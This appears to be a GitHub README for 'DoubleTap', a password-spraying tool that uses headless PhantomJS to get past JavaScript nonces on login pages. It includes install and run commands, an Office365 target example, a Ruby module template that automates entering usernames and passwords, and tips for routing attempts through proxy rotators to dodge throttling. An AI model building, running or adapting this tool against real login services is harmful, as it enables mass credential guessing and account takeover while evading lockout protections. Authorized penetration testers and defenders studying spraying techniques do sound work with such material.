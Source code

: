 # DoubleTap

Password spray sites that require 2+ page loads/and or dynamic nonces (JavaScript) to complete the
authentication procedure.

DoubleTap uses the headless browser, PhantomJS, complete with JavaScript runtime, in order to load
pages and execute JavaScript that often generates things like dynamic nonces that validate the page
was actually rendered by a human.

Prerequisites:
* Docker, probably.

## Usage

The main `doubletap` script should detect if you have the required docker images build, and
build them if not.

Create files `user.list` and `pass.list` in this directory with your desired entries
(or override the `@users` and `@passwords` variables in your module code with your list locations)

From this directory, run

```sh
./doubletap -m office365 [-v]
```

![](./lib/dt.png)


## Alternate Install (without Docker)
* Install Ruby (preferably with a version manager like Rbenv or RVM)
* Install node.js (preferably with a version manager like nodeenv or n)

```
gem install 'poltergeist'
gem install 'capybara'
```

```
npm install -g phantomjs-prebuilt
```

```
ruby lib/main.rb -m MODULE [-v]
```

## Adding a Module

Copy and rename the `modules/template.rb` file and modify according to your service's needs.
The template module's source code is heavily commented to assist in creating your own custom
module.

```sh
cp modules/{template.rb,office365.rb}
sed -i 's/Tempate/Office365/g' modules/office365.rb
```

Set the `@url` variable and define what the login flow is and what constitutes
a successful login using the `#valid_login?` and `#login_flow` methods

```ruby
require_relative '../lib/core'
class Mymodule < DoubleTap

  def initialize
    super
    @url = 'http://mail.$COMPANY.com'
  end

  def login_flow(user:, pass:)
    # read lib/core for available helper methods
    visit_site
    fill_in(form_field_name: 'email', value: user)
    click_button(button_name: 'Next')
    fill_in(form_field_name: 'passwd', value: pass)
    click_button(button_name: 'Sign in')
  end

  def valid_login?
    @browser.status_code == 200
  end
end
Mymodule.new.spray!
```

## ProTips

### I want to proxy these request through some kind of anonymizer

Most companies will throttle failed attempts so it's up to the user of this library to meter
requests or pipe them through some kind of proxy rotator. Since this library is executed in a
Docker environment, your proxy server needs to be accessible from the internal Docker network.
There are many ways to achieve this but I've provided a line in `doubletap.sh` for you to uncomment
that will proxy requests made from inside the DoubleTap container.

```sh
# Uncomment the following line to enable proxying to the Docker host
PROXY_CMD="--env http_proxy='http://172.17.0.1:8080'" # This IP can be attained with `ifconfig docker0`

# Mount CWD and start container with args passed into script
sudo docker run --rm -v "${PWD}":/app $PROXY_CMD doubletap "$@"
```

### But I don't know what a successful login looks like. How am I supposed to define it?
See above. Proxy DoubleTap through Burp so you can inspect the responses and determine what
succeed/failed. In order to get the framework to stop complaining, just return True/False from the
`#valid_login?` method in your module.
